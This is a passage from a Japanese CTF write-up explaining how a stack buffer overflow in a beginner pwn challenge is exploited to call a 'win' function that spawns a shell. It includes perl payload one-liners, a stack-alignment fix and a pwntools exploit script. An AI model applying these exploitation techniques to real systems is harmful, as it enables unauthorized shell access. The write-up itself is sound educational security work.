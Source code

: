 といった感じに目標と現時点のスタックフレームが示される親切設計となっている。ついでに目的の`win`関数では、`system("/bin/sh")`を呼び出してくれる。つまり`win`関数を呼べれば自動的にシェルが取れる。

さて、IDAで実行ファイルを見てみると、`vuln`という関数で入力を受け付けて`buf`に格納していることがわかる。このとき、`buf`は`0x20`(32)byteしかない一方で、`read`関数を呼ぶときに入力サイズを`0x200`に設定していて、ここでスタックオーバーフローが発生する。これを使って"return address (vuln)"となっている箇所を書き換えればよい。飛び先となる`win`関数のアドレスは分かっているし、"return address"までの長さも分かっているので、次のような入力を与える（エンディアンに注意）。

```
$ perl -e 'print "A"x40 . "\x61\x08\x40"' | ./chall
```

これは失敗する。

> ```
> Oops! RSP is misaligned!
> Some functions such as `system` use `movaps` instructions in libc-2.27 and later.
> This instruction fails when RSP is not a multiple of 0x10.
> Find a way to align RSP! You're almost there!
> ```

というわけで、`rsp`（スタックポインタ）が`0x10`の倍数になっていないといけない。スタックポインタは8byteずつ動くので、`push`/`pop`が呼び出される回数を1回増やすか減らすかする。

`win`関数があるという`0x400861`だが、これは関数の先頭、すなわち`push rbp`を指している。これによってズレているのだとすれば、この命令を飛ばせばよいはずである。`push rbp`の直後の`0x400862`を書き込むようにする。

```
$ perl -e 'print "A"x40 . "\x62\x08\x40"' | ./chall
...
Congratulations!
```

祝福されたものの即座に終了してしまう。試しに`nc`で実際の問題サーバーに投げ込んでも、同様に応答が返ってこなくなる。これで1時間以上は潰していたのだが、神の助言によって`strace`をしてみると、どうも`system("/bin/sh")`は呼べているがttyが取れなくて死んでいるようだった。

どうしたものか悩んだところで、そういえばpwntoolsに`interactive`とかいうメソッド生えてなかったっけ、これでttyの代わりにならんか、と思い出してpwntoolsを使ってみる。

```python
from pwn import *

context.arch = 'amd64'

io = process('chall')

vuln_ret = pack(0x400862)
io.sendline(b'A' * 40 + vuln_ret)
io.interactive()
```

これを実行すると無事に対話的にコマンドが打てるようになった。接続先を問題サーバーにして実行し、対話環境に入ったところでフラグを`cat`した。

### Beginner's Heap

この問題を解くにあたってはこちらの記事が大変参考になった: [t\-cache poisoning: FireShell CTF 2019 babyheap \- ふるつき](https://furutsuki.hatenablog.com/entry/2019/02/26/112207)

さて、こちらはバイナリがない。`nc`で問題サーバーに繋ぐとこんな表示が現れる。
